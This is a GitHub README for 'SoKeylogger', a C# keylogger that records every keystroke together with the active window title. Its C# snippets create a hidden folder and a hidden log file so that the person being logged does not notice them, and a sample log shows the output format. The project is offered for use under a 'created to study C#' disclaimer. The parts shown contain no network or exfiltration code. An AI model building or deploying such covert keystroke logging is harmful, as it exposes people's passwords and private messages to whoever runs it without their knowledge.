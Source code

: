 # SoKeylogger

#### [README_RU]()

### About

Developed using .NET framework 4.0 for greater compatibility.

The application allows you to log keystrokes on the PC.

#### The application was created in order to study C#. I am not responsible for your actions with this application and source code.

### Settings

You can configure some parameters by changing the variables in the #Settings region.

```csharp
// personal ID of this application. helps to sort log files
private static readonly string KLGR_PERS_ID = "1";
// directory path
private static readonly string DIR_PATH = @"C:\directory name";
// log file name
private static readonly string LOG_FILENAME = @"\filename" + KLGR_PERS_ID + ".txt";
// full path to log file
private static readonly string LOGFILE_FP = DIR_PATH + LOG_FILENAME;
```

### Logging

If the logging directory does not exist, it is created and it's attribute sets to "Hidden".<br/>
The user will not be able to see the folder without turning on the function of viewing hidden items in the explorer.

```csharp
if (!Directory.Exists(DIR_PATH)) {
    DirectoryInfo di = Directory.CreateDirectory(DIR_PATH);
    di.Attributes = FileAttributes.Directory | FileAttributes.Hidden;
}
```

The same with log file. It is created if it does not exist and it's attribute sets to "Hidden".  

```csharp
if (!File.Exists(LOGFILE_FP)) {    
    File.Create(LOGFILE_FP);
    FileInfo fi = new FileInfo(LOGFILE_FP);
    fi.Attributes = FileAttributes.Hidden;
}
```

When the program is restarted, the log file will not be deleted. Application will add new entries to the end.<br />
The log file contains information in this condition: [Date Time][Active window caption] -> [Key]

```
[01.01.1970 00:00:00][Notepad] -> T
[01.01.1970 00:00:00][Notepad] -> E
[01.01.1970 00:00:00][Notepad] -> S
[01.01.1970 00:00:00][Notepad] -> T
[01.01.1970 00:00:00][Notepad] -> Space
[01.01.1970 00:00:00][Notepad] -> T
[01.01.1970 00:00:00][Notepad] -> H
[01.01.1970 00:00:00][Notepad] -> I
[01.01.1970 00:00:00][Notepad] -> S
```

### Known problems

- When the application is started for the first time, logging does not begin if the directory and the log file do not exist.
